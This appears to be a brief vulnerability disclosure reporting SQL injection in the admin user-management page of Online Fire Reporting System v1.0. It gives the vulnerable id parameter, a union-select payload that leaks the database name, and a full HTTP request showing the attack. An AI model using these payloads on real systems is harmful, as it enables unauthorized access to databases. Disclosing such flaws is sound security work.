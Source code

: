 # Online Fire Reporting System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15346/online-fire-reporting-system-phpoop-free-source-code.html

Vulnerability File: /ofrs/admin/?page=user/manage_user&id=

Vulnerability location: /ofrs/admin/?page=user/manage_user&id=, id

[+] Payload: /ofrs/admin/?page=user/manage_user&id=-6%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11--+ // Leak place ---> id

```sql
GET /ofrs/admin/?page=user/manage_user&id=-6%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170816795-1e345e6a-4a77-4614-9e57-5980e7394691.png)

![image](https://user-images.githubusercontent.com/54017627/170816739-65c920f3-8419-402e-9f08-b471ccacb5ee.png)
